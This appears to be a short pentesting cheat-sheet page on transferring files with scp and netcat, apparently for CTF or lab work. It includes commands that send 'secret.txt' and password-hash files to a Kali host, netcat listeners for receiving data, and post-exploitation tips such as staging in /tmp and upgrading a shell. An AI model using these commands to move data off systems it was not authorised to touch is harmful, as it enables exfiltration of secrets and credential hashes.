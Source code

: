 ```yaml
---
layout: default
title: SCP Transfer
permalink: /scp_transfer/
---
```


# Transfering over SSH/SCP

### Sender

`scp secret.txt kali@10.10.10.79:/path/to/dir`
`scp ./hash.txt kracken@192.168.0.45:"C:\\Users\\kracken\\Desktop\\hacking\\hashes\\hash.txt"`

### Receiver

`scp kracken@192.168.0.45:"/C:/Users/kracken/Desktop/crack" .`

## NetCat

receiver:
`nc -lvp 5555 > file.txt`
and then sender:
`nc 192.168.31.141 5555 < file.txt`
`nc -w 3 [destination] <Port_number> < <file_name>`

On Windows:
`nc.exe 192.168.31.141 5555 < data.txt`
`nc -lvp 5555 > data.txt`



Useful notes:
- On Linux receiving: worth using /tmp directory, as it is globally readable, writeable and executable.
- On Windows the C:\Users\Public\ directory is accessible to all users on a Windows system.
- Upgrade your shell if possible.
- If one method doesn't work, try another one.
